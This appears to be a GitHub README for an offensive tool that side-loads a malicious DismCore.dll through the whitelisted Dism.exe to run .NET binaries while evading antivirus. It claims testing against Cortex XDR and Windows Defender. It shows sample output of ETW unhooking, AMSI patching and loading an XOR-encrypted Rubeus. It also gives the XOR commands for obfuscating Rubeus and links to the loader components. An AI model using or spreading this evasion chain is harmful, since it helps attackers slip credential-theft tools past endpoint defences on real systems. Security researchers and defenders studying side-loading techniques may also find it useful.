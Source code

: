 # Dism DLL Side Loader
Combine Dism whitelisting and all side load netloader to load c# or .NET binary to bypass AV. 
Tested on 22-10-2022 with Cortex XDR and Windows Defender.

## Usage
Compile the dll library, change name of dll to "DismCore.dll", put Dism.exe and DismCore.dll in the same directory and run.

```
.\Dism.exe
[+] Successfully unhooked ETW!
[+] Successfully patched AMSI!
==>Path: D:\tools\xor_rubeus
==>key: P
==>args:
[+] Decrypting XOR encrypted binary using key 'P'
[+] URL/PATH : D:\tools\AV bypass\Netloader_orginal\xor_ru Arguments :

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0
```
## Encrypt XOR binary
use xor&#46;py
### Encryption
```
cat Rubeus.exe | python xor.py "P" > xor_ru
```
### Decryption
```
cat xor_ru | python xor.py "P" > Rubeus.exe
```


## Credit
May need to run DllExport.bat before compile.
https://jackkuo.org/post/export_unmanaged_dll_from_csharp/

Netloader
https://github.com/Flangvik/NetLoader

xor&#46;py
https://github.com/ShawnDEvans/xorpy

Thank you darklab people. Especially Erwin and Dennis ^^